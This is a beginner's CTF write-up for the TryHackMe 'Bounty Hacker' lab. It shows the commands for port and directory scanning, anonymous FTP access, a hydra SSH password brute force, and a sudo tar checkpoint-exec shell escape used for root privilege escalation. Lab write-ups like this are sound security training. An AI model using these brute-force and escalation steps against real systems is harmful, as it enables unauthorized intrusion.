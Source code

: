 ```yaml
---
title: Bounty Hacker CTF Writeup
tags:
  - tryhackme
  - ctf
  - easy
---
```

# [Bounty Hacker CTF](https://tryhackme.com/r/room/cowboyhacker) - TryHackMe

**Author:** [Sevuhl](https://tryhackme.com/p/Sevuhl)  
**Date:** July 31, 2020  
**Category:** General   
**Difficulty:** Easy   

---
## Challenge Description

The following was the given description of the CTF. 
"You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker! You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future!" 
Kind of corny in my opinion but we move.
Basically we have to answer a few basic questions about the given machine. Which are:
- Find open ports on the machine
- Who wrote the task list?
- What service can you bruteforce with the text file found?
- What is the users password?
- user.txt
- root.txt

---

First I deployed the machine and ran a basic [[Nmap]] scan to find the open ports.

```
nmap <ip-address> -vv -T4 
```

This is the result we got

```
PORT      STATE  SERVICE         REASON
20/tcp    closed ftp-data        conn-refused
21/tcp    open   ftp             syn-ack
22/tcp    open   ssh             syn-ack
80/tcp    open   http            syn-ack
990/tcp   closed ftps            conn-refused
40193/tcp closed unknown         conn-refused
40911/tcp closed unknown         conn-refused
41511/tcp closed unknown         conn-refused
42510/tcp closed caerpc          conn-refused
44176/tcp closed unknown         conn-refused
44442/tcp closed coldfusion-auth conn-refused
44443/tcp closed coldfusion-auth conn-refused
44501/tcp closed unknown         conn-refused
45100/tcp closed unknown         conn-refused
48080/tcp closed unknown         conn-refused
49152/tcp closed unknown         conn-refused
49153/tcp closed unknown         conn-refused
49154/tcp closed unknown         conn-refused
49155/tcp closed unknown         conn-refused
49156/tcp closed unknown         conn-refused
49157/tcp closed unknown         conn-refused
49158/tcp closed unknown         conn-refused
49159/tcp closed unknown         conn-refused
49160/tcp closed unknown         conn-refused
49161/tcp closed unknown         conn-refused
49163/tcp closed unknown         conn-refused
49165/tcp closed unknown         conn-refused
49167/tcp closed unknown         conn-refused
49175/tcp closed unknown         conn-refused
49176/tcp closed unknown         conn-refused
49400/tcp closed compaqdiag      conn-refused
49999/tcp closed unknown         conn-refused
50000/tcp closed ibm-db2         conn-refused
```

next we have a look at the website and also run [[Gobuster]] on it along the side with a common wordlist.

```
gobuster dir -u http://<ip-address> -w /usr/share/wordlists/dirb/common.txt
```

Well that did not reveal anything interesting. So After that I tried to anonymous login to ftp

```
ftp -h <ip-address>
```

I used the username `anonymous` without any password. This worked.
I wanted to list down all the files on the ftp-server but I could not use `ls` command. It kept giving me this odd response: 
```
229 Entering Extended Passive Mode (|||19499|)
```

A quick search told me that there a two different modes passive and Extended passive mode. I don't know the details however I will look into it later.  
I ran the `help` command to look for the available commands . There I found `dir` which chatgpt told me works similar to `ls -l` . I used it and got two files.
- locks.txt
- tasks.txt
I downloaded both files using the `get` command. looking into the tasks.txt file I found a username at the end 
```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-***
```
This answered the first question.
Next looking at locks.txt I found a list of alphanumeric strings that looked like passwords. the SSH port (22) was also open. I had the Ip-address I had the username and a list of passwords. I could try brute forcing it. This also answered one of our questions of which service can be bruteforced.

I used [[hydra]] to brute force SSH using the following command

```
hydra -l *** -P locks.txt ssh://<ip-address>
```

I got the following response

```
[DATA] attacking ssh://<ip-address>/
[22][ssh] host: 10.10.8.22   login: ***   password: *****************
1 of 1 target successfully completed, 1 valid password found
```

This answered one of our questions as well.

I used the password and the username to log in to SSH

I ran a simple `ls` command to find out what was inside and found the user.txt with a flag inside.
 to find the root.txt I tried to run the find command but was unable to find anything interesting without root privileges. I was unable to run using `sudo` as I did not have root permissions. 
 I got stuck here and looked into another writeup where I found that I could use  `sudo -l` to list the allowed commands. It gave me the following response:
 ```
 User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

I had a quick look at [GTFO Bins](https://gtfobins.github.io/) to find this about `tar`

It can be used to break out from restricted environments by spawning an interactive system shell.

```
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

After running this command I was able to run the following find command:

```
sudo find / -name root.txt 2>/dev/null
```

I got the root.txt and found the last flag. That finishes our CTF. 

## Conclusion
The CTF itself was pretty easy. Other than the last step for privilege escalation using `tar` I was able to figure out everything myself. 

> [!NOTE] NOTE
> This was my first Writeup to any CTF. I tried my best. It must definitely be lacking in many areas. Still I hope it helped. If you could provide me with some feedback that would be great. It would help me improve in the future. You can contact me through [LinkedIn](https://www.linkedin.com/in/mraum/). Thankyou!

